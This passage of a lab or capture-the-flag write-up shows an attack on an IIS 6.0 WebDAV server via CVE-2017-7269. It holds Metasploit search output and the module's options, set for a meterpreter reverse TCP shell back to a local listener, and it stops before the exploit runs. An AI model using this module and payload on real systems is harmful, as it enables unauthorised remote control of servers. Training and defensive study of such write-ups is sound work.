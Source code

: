 ```
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                                  | windows/remote/19033.txt
                                                                                                                                                            
```
From the results we received, I decided to use the `WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow` exploit.


NOTE: While trying to solve this box without Metasploit, the shell I got back was too unstable and therefore, I decided to solve this box using Metasploit.

## Initial Foothold

So I started Metasploit and looked for the exploit on [exploitdb](https://www.exploit-db.com/exploits/41738), and I fount a CVE(# 2017-7269).

```
msf6 > search 2017-7269

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

So, metasploit did have the exploit, so decided to configure and use the exploit.

```
msf6 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.8      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


```